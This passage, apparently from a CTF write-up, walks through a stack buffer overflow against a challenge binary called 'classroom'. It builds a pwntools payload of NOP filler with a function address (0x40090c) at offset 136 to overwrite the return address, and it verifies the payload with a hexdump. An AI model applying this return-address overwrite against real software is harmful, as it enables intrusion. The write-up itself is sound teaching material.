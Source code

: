 ```python
# RWX:      Has RWX segments

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()

~/D/W/b/pwn $ 
```

We'll modify the template to:
- handle input/output with the `classroom` binary.
- send payload1 at `Kids must follow the rules (y/n)` question  
- send payload2 at the `kinder` function 5th question

For payload2 we will modify the template payload from:

```python
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
```

to the following: 

```python
payload2 = fit({
    136: p64(0x40090c)
    }, filler=asm(shellcraft.nop()), length=400)
```

this will produce a byte array of 400 nops inclduing a 64bit packed value at offset 136. 

As discussed earlier, at that offset exists the return value we aim to overwrite, and we are overwritting with the `kids_are_not_allowed_here()` function address: `0x40090c`

In `ipython3` we can verify:

```python
~/D/W/b/pwn $ ipython3
Python 3.11.9 (main, Apr 10 2024, 13:16:36) [GCC 13.2.0]
Type 'copyright', 'credits' or 'license' for more information
IPython 8.20.0 -- An enhanced Interactive Python. Type '?' for help.

In [1]: from pwn import *

In [2]: payload2 = fit({
    ...: 136: p64(0x40090c)
    ...: }, filler=asm(shellcraft.nop()), length=400)

In [3]: print(hexdump(payload2))
00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
*
00000080  90 90 90 90  90 90 90 90  0c 09 40 00  00 00 00 00  │····│····│··@·│····│
00000090  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?